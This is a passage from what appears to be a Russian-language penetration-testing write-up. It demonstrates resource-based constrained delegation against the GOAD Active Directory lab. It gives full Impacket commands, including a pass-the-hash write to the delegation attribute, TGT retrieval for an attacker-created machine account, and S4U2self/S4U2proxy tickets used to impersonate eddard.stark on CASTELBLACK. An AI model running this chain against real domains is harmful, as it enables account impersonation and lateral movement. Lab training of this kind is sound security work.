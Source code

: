 В атрибут `msDS-AllowedToActOnBehalfOfOtherIdentity` хоста `CASTELBLACK` запишем созданную злоумышленником машинную учетную запись `rbcd$`.
```
impacket-rbcd -delegate-from rbcd$ -delegate-to CASTELBLACK$ -dc-ip 192.168.56.11 -action  write north.sevenkingdoms.local/castelblack$ -hashes aad3b435b51404eeaad3b435b51404ee:4af42f71719182020dff6fad1fbeeed6
```

![](/images/protected_users/Pasted%20image%2020241206123030.png)

Получим TGT для `rbcd$` и экспортируем себе.

```
impacket-getTGT north.sevenkingdoms.local/rbcd$:'rbcd@123' -dc-ip 192.168.56.11
export KRB5CCNAME=rbcd$.ccache
```

![](/images/protected_users/Pasted%20image%2020241206134913.png)

s4u2self Получим ST для пользователя eddard.stark.

```
impacket-getST -self -k -no-pass -impersonate eddard.stark -dc-ip 192.168.56.11 north.sevenkingdoms.local/rbcd:'rbcd@123'
```

![](/images/protected_users/Pasted%20image%2020241206143825.png)

s4u2proxy Получим ST для `host/CASTELBLACK` подставляя полученный выше билет.

```
impacket-getST -additional-ticket eddard.stark@rbcd@NORTH.SEVENKINGDOMS.LOCAL.ccache -spn host/CASTELBLACK -impersonate eddard.stark -dc-ip 192.168.56.11 north.sevenkingdoms.local/rbcd:'rbcd@123'
```

![](/images/protected_users/Pasted%20image%2020241206143958.png)
